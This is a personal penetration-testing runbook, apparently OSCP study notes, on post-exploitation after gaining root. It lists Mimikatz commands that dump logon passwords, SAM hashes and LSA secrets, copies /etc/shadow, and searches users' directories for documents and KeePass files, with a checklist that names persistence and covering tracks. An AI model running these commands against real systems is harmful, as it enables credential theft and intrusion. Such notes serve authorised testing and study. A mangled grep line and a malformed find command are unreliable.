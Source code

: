 # Tunneling
<!--- Status 90% --->

## Introduction

This runbook provides a guide to information I want to collect after I get root or post system permisions. It is both for linux and windows.  Most of these steps are else where in the playbooks, but it is consolidated here as well.  It also includes steps you want to do in order to exfiltrate data and clear logs.

## Table of Content

- [Tunneling](#tunneling)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [Credential Harvesting](#credential-harvesting)
    - [Mimikatz usage](#mimikatz-usage)
    - [wmic  See RTFMv2 pg 46](#wmic--see-rtfmv2-pg-46)
    - [Linux](#linux)
  - [Check home directories](#check-home-directories)
    - [Windows](#windows)
    - [Linux](#linux-1)
  - [Logs](#logs)
    - [Windows](#windows-1)
    - [Linux](#linux-2)
  - [Clean Up](#clean-up)

## Credential Harvesting

Active Directory Enumeration and Post Exploitation also has a complete guide, but these are some basics.
Dump the sam
Also look at linux password dumps

### Mimikatz usage

```cmd
# users passwords
sekurlsa::logonpasswords
# Hashdump
lsadump::sam
# SysKey to decrypt SECRETS entries
lsadump::secrets 
```

### wmic  See RTFMv2 pg 46

### Linux

```sh
cat /etc/shadow > shadow.hash
```

## Check home directories

### Windows

- Check files in all directories

```powershell
  Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue 
```

### Linux

- Check files in all directories

```sh
find / -type f -name -o -name "*.txt" -o -name "*.kdbx" -o -name "*.zip" 2>/dev/null
```

## Logs

### Windows

Windows Event Viewer
Include all users command history

### Linux

- Log files

```sh
cat /etc/*syslog*.conf |gr
ep -v "^#"
```
/var/log/<log type>

- History
Include all users command history

## Clean Up
<!-- Comming soon -- Not really needed for OSCP-->

- [ ] Evidence for report or proof
- [ ] Tunnels
- [ ] Persistance
- [ ] Covering Tracks


 <!--- Last Updated August 15, 2024 --->